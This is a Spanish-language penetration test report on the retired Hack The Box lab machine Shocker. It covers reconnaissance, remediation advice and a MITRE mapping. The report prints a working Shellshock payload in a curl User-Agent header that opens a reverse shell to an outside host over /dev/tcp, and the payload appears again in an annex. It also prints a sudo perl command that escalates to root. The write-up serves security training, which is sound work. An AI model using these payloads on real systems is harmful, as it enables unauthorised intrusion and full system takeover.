

# Informe de Prueba de Penetración — Shocker

| | |
|---|---|
| **ID de informe** | HO-0010-00 |
| **Objetivo** | Shocker (`10.129.95.234`) |
| **Plataforma** | Hack The Box — máquina retirada |
| **Tipo de prueba** | Caja negra (black box) |
| **Fecha de ejecución** | 2026-10-20 |
| **Autor** | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión** | 1.0 |
| **Clasificación** | Público — uso educativo |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha | Descripción |
|---------|-------|-------------|
| 1.0 | 2026-10-20 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Shocker** simulando un atacante externo sin credenciales
ni conocimiento previo del entorno, para obtener el máximo nivel de privilegios posible.

### 1.2 Resultado

> El servidor web publicaba un script que interpretaba datos enviados por el navegador
> usando una versión del intérprete de comandos del sistema afectada por una
> vulnerabilidad conocida desde 2014 y nunca corregida. Esto permitió a cualquier
> visitante, sin usuario ni contraseña, ejecutar órdenes arbitrarias en el servidor. Desde
> ahí, un permiso mal configurado permitió pasar de una cuenta limitada a control total
> del sistema con un solo comando documentado públicamente. Un atacante real podría robar
> o destruir toda la información alojada en el equipo.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
|:-------:|:----:|:-----:|:----:|:-----------:|
| 1 | 1 | 0 | 0 | 0 |

### 1.4 Resumen de hallazgos

| ID | Hallazgo | Severidad | CVSS |
|----|----------|-----------|------|
| [HO-0010-01](#ho-0010-01--ejecución-remota-de-comandos-sin-autenticación-vía-shellshock-cve-2014-6271-en-script-cgi) | Ejecución remota de comandos sin autenticación vía Shellshock (CVE-2014-6271) | Crítica | 9.8 |
| [HO-0010-02](#ho-0010-02--permiso-sudo-excesivo-sobre-el-intérprete-perl-sin-restricción-de-argumentos) | Permiso `sudo` excesivo sobre el intérprete Perl, sin restricción de argumentos | Alta | 7.8 |

### 1.5 Recomendaciones prioritarias

1. Actualizar Bash a una versión parcheada contra Shellshock y sus variantes.
2. Retirar o deshabilitar `/cgi-bin/user.sh` si no es un requisito funcional.
3. Eliminar el permiso `sudo` sobre `/usr/bin/perl` para `shelly` o restringirlo a un script fijo.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo | Dirección | Incluido |
|--------|-----------|:--------:|
| Shocker | `10.129.95.234` | Sí |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente | Detalle |
|------------|---------|
| Sistema | Linux (kernel 7.2.11-zen1-1-zen) |
| Conexión | VPN de Hack The Box |
| Herramientas | nmap 7.992, gobuster, curl, netcat |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.95.234
```

| Puerto | Servicio | Versión | Observaciones |
|--------|----------|---------|---------------|
| 80/tcp | HTTP | Apache/2.4.18 (Ubuntu) | Confirmada por la cabecera `Server` en una respuesta 404; principal superficie de ataque. |
| 2222/tcp | SSH | No determinada | Puerto no estándar; no se usó como vector, no se registró su versión. |

> **Nota de calidad de datos:** el escaneo `-sCV` de `loot/detallado.txt`, ejecutado contra
> el mismo objetivo segundos después, mostró ambos puertos como `filtered`, probablemente
> por una inestabilidad puntual de la VPN de HTB. Las peticiones HTTP directas realizadas a
> continuación confirman que el puerto 80 estaba accesible en la práctica.

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El sitio web no mostraba contenido de interés de forma directa. Se realizó fuzzing de
directorios contra la raíz del servidor, revelando `/cgi-bin`, directorio estándar de
Apache para scripts ejecutables del lado del servidor (CGI):

```bash
gobuster dir -u http://10.129.95.234 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  --add-slash
```

Sobre `/cgi-bin` se realizó un segundo fuzzing, de nombres de archivo con extensiones
típicas de scripts CGI, lo que encontró el script `user.sh`:

```bash
gobuster dir -u http://10.129.95.234/cgi-bin \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -x pl,sh,cgi --add-slash
```

Una petición directa contra una ruta inexistente del directorio confirmó la versión del
servidor en la cabecera `Server` de la respuesta 404:

```text
Apache/2.4.18 (Ubuntu) Server at 10.129.95.234 Port 80
```

### 3.4 Acceso inicial

Explotación de Shellshock contra `/cgi-bin/user.sh` y obtención de shell como `shelly`.
Ver **[HO-0010-01](#ho-0010-01--ejecución-remota-de-comandos-sin-autenticación-vía-shellshock-cve-2014-6271-en-script-cgi)**.

Estabilización de la shell:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
```

### 3.5 Movimiento lateral

No aplica.

### 3.6 Escalada de privilegios

Ver **[HO-0010-02](#ho-0010-02--permiso-sudo-excesivo-sobre-el-intérprete-perl-sin-restricción-de-argumentos)**.

---

## 4. Hallazgos técnicos

### HO-0010-01 — Ejecución remota de comandos sin autenticación vía Shellshock (CVE-2014-6271) en script CGI

| | |
|---|---|
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-78](https://cwe.mitre.org/data/definitions/78.html) — Improper Neutralization of Special Elements used in an OS Command (OS Command Injection) |
| **CVE** | [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271) |
| **Componente afectado** | `/cgi-bin/user.sh` sobre Apache/2.4.18 — Bash vulnerable, `10.129.95.234:80` |
| **Estado** | Explotada |

#### Descripción

El servidor web expone un script CGI (`user.sh`) ejecutado a través de una versión de
Bash afectada por Shellshock. Bash, al procesar variables de entorno con un formato de
función malformado, ejecuta cualquier comando añadido a continuación de esa definición en
lugar de limitarse a interpretarla. Apache, al invocar un script CGI, traduce ciertas
cabeceras de la petición HTTP (como `User-Agent`) en variables de entorno antes de
ejecutar el intérprete configurado.

#### Prueba de concepto

**Paso 1.** Confirmación de ejecución de comandos mediante la cabecera `User-Agent`.

```bash
curl -s "http://10.129.95.234/cgi-bin/user.sh" \
  -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```

**Paso 2.** Obtención de una shell interactiva sustituyendo el comando de prueba por una
reverse shell.

```bash
curl -s "http://10.129.95.234/cgi-bin/user.sh" \
  -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &> /dev/tcp/10.10.15.56/443 0>&1'"
```

```text
shelly@Shocker:~$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm)
```

#### Impacto

Cualquier persona con acceso de red al puerto 80, sin usuario ni contraseña, puede
ejecutar comandos arbitrarios en el servidor manipulando la cabecera `User-Agent` de una
petición HTTP. En esta prueba se usó para obtener una shell interactiva como `shelly`.

#### Remediación

- **Corto plazo:** retirar o deshabilitar `/cgi-bin/user.sh` si no es un requisito funcional.
- **Largo plazo:** actualizar Bash a una versión parcheada contra CVE-2014-6271 y las variantes relacionadas (CVE-2014-6277, CVE-2014-6278, CVE-2014-7169); si el script fuera necesario, migrar su lógica a un lenguaje que no invoque Bash para procesar variables de entorno no confiables.

#### Referencias

- [CWE-78 — OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
- [NVD — CVE-2014-6271 (Shellshock)](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

---

### HO-0010-02 — Permiso `sudo` excesivo sobre el intérprete Perl, sin restricción de argumentos

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-269](https://cwe.mitre.org/data/definitions/269.html) — Improper Privilege Management |
| **CVE** | — |
| **Componente afectado** | Regla `sudoers` del usuario `shelly` sobre `/usr/bin/perl` |
| **Estado** | Explotada |

#### Descripción

El usuario de bajo privilegio `shelly` tiene autorización, sin contraseña (`NOPASSWD`) y
sin restricción de argumentos, para ejecutar el intérprete Perl como `root`. Perl es un
intérprete de propósito general: cualquier usuario con ese permiso puede ejecutar código
arbitrario con privilegios máximos.

#### Prueba de concepto

**Paso 1.** Enumeración local.

```bash
id; sudo -l
```

`sudo -l` mostró que `shelly` puede ejecutar `/usr/bin/perl` como `root` sin contraseña y
sin restricción de argumentos.

**Paso 2.** Explotación siguiendo la técnica documentada en GTFOBins.

```bash
sudo perl -e 'exec "/bin/bash";'
```

```text
root@Shocker:~# id
uid=0(root) gid=0(root) groups=0(root),1000(shelly)
```

#### Impacto

Desde la sesión de `shelly` obtenida vía Shellshock, un único comando de Perl
documentado públicamente en GTFOBins otorgó una shell con UID 0, es decir, control total
del sistema.

#### Remediación

- **Corto plazo:** restringir la regla `sudoers` a un script fijo (`Cmnd_Alias`) en lugar del binario del intérprete completo.
- **Largo plazo:** retirar el permiso `sudo` sobre `/usr/bin/perl` para `shelly`; si existe una necesidad funcional concreta, sustituirla por un script específico y auditado que no permita ejecutar código Perl arbitrario.

#### Referencias

- [CWE-269 — Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [GTFOBins — perl](https://gtfobins.github.io/gtfobins/perl/#sudo)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel | Usuario | Método | Prueba |
|-------|---------|--------|--------|
| Usuario | `shelly` | HO-0010-01 | `user.txt` — `3ace7565************************` |
| Administrador | `root` | HO-0010-02 | `root.txt` — `9912290568************************` |

### 5.2 Información sensible expuesta

| Tipo | Ubicación | Observación |
|------|-----------|-------------|

No se identificó información sensible adicional más allá del acceso descrito.

> Las flags se muestran parcialmente censuradas.

### 5.3 Limpieza

| Artefacto | Ubicación | Estado |
|-----------|-----------|--------|
| — | — | No se cargaron archivos ni herramientas en el objetivo. |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

Dos fallos de configuración, independientes entre sí, permitieron el compromiso total: una
versión de Bash sin actualizar expuesta a través de un script CGI, y un permiso `sudo`
excesivo sobre un intérprete de propósito general. Ninguno requirió explotar una
vulnerabilidad desconocida ni técnicas avanzadas; ambos corresponden a fallos públicos y
documentados.

### 6.2 Aprendizajes del auditor

- El fuzzing de archivos dentro de directorios "técnicos" como `/cgi-bin` (con
  extensiones de script, no solo de páginas web) es clave: el hallazgo central no estaba
  en la web visible.
- Una vulnerabilidad de más de una década (Shellshock, 2014) sigue siendo explotable en la
  práctica cuando el parcheo de dependencias de sistema no forma parte del ciclo de
  mantenimiento del servidor.
- `sudo -l` debe revisarse siempre después de obtener cualquier acceso, por limitado que
  sea: un intérprete de propósito general autorizado sin restricciones equivale, en la
  práctica, a una cuenta de root.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — todos los puertos</summary>

```text
# Nmap 7.992 scan initiated Tue Oct 20 11:59:55 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.95.234
Nmap scan report for 10.129.95.234
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

# Nmap done at Tue Oct 20 12:00:10 2026 -- 1 IP address (1 host up) scanned in 15.20 seconds
```

</details>

<details>
<summary>Respuesta HTTP 404 — confirmación de versión de Apache</summary>

```text
$ curl -s "http://10.129.95.234/cgi-bin" -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /cgi-bin was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.129.95.234 Port 80</address>
```

</details>

<details>
<summary>nmap — escaneo detallado (puertos reportados como filtered)</summary>

```text
# Nmap 7.992 scan initiated Tue Oct 20 12:00:27 2026 as: nmap -p80,2222 -sCV -Pn -n -T4 -oN loot/detallado.txt 10.129.95.234
Nmap scan report for 10.129.95.234
Host is up.

PORT     STATE    SERVICE      VERSION
80/tcp   filtered http
2222/tcp filtered EtherNetIP-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 20 12:00:35 2026 -- 1 IP address (1 host up) scanned in 7.19 seconds
```

Este escaneo, ejecutado segundos después del anterior, clasificó ambos puertos como
`filtered`, probablemente por una inestabilidad puntual de la VPN de HTB. Se conserva como
evidencia de la sesión; el estado real de los puertos quedó confirmado por las peticiones
HTTP directas documentadas en la sección 3.2 y el Anexo A anterior.

</details>

### B. Scripts y exploits

<details><summary>Payload Shellshock (cabecera User-Agent)</summary>

```text
User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &> /dev/tcp/10.10.15.56/443 0>&1'
```

</details>

<details><summary>Escalada con sudo perl (GTFOBins)</summary>

```bash
sudo perl -e 'exec "/bin/bash";'
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---------|---------|----|
| Initial Access | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) |
| Privilege Escalation | Abuse Elevation Control Mechanism | [T1548](https://attack.mitre.org/techniques/T1548/) |

### D. Referencias generales

- [Página de la máquina en HTB](https://app.hackthebox.com/machines/Shocker)
- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
